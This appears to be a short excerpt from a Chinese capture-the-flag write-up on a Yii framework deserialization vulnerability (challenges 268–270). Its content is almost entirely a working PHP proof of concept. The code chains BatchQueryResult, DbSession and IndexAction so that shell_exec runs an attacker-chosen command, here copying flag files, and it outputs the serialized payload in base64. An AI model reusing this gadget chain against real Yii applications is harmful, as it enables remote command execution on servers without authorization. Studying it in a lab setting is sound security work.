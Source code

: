 ```php
}
```

---
# 268-270(Yii反序列化漏洞)
换了一个 poc：
```php
<?php
namespace yii\rest {
    class Action
    {
        public $checkAccess;
    }
    class IndexAction
    {
        public function __construct($func, $param)
        {
            $this->checkAccess = $func;
            $this->id = $param;
        }
    }
}
namespace yii\web {
    abstract class MultiFieldSession
    {
        public $writeCallback;
    }
    class DbSession extends MultiFieldSession
    {
        public function __construct($func, $param)
        {
            $this->writeCallback = [new \yii\rest\IndexAction($func, $param), "run"];
        }
    }
}
namespace yii\db {
    use yii\base\BaseObject;
    class BatchQueryResult
    {
        private $_dataReader;
        public function __construct($func, $param)
        {
            $this->_dataReader = new \yii\web\DbSession($func, $param);
        }
    }
}
namespace {
    $exp = new \yii\db\BatchQueryResult('shell_exec', 'cp /f* bit.txt'); //此处写命令
    echo(base64_encode(serialize($exp)));
}
```

---